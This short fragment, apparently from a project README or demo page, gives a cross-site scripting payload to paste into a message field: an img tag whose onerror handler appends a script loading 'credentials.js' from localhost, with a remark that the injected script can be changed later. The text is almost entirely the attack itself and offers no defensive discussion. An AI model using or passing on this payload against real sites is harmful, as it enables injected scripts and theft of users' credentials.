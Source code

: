 Input the following string as a message to inject a script

```
<img src=/ onerror='with(top)body.appendChild (createElement("script")).src="http://localhost:4000/credentials.js"'>
```

Scripts can still be changed after injection
